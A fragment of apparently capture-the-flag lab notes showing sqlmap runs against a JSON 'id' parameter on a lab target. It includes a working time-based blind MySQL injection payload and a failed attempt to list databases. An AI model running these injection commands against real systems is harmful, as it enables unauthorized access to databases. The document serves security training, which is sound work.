 ```javascript
-p id --batch
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-6hq85a6hgr]─[~]
└──╼ [★]$ sqlmap -r addtochart.req -p id --batch

[SNIP]

sqlmap identified the following injection point(s) with a total of 2203 HTTP(s) requests:
---
Parameter: JSON id ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"1 AND (SELECT 6337 FROM (SELECT(SLEEP(5)))QZRA)"}
---

[SNIP]

[09:49:25] [INFO] the back-end DBMS is MySQL

web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)

[SNIP]
```

```javascript
--batch --banner --dbs
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-6hq85a6hgr]─[~]
└──╼ [★]$ sqlmap -r addtochart.req -p id --batch --banner --dbs

[SNIP]

[09:50:35] [INFO] fetching banner
[09:50:35] [INFO] retrieved: 
[09:50:35] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[09:50:35] [INFO] fetching database names
[09:50:35] [INFO] fetching number of databases
[09:50:35] [INFO] retrieved: 
[09:50:35] [ERROR] unable to retrieve the number of databases
[09:50:35] [INFO] falling back to current database
[09:50:35] [INFO] fetching current database
[09:50:35] [INFO] retrieved: 
[09:50:35] [CRITICAL] unable to retrieve the database names
❌

[SNIP]
```
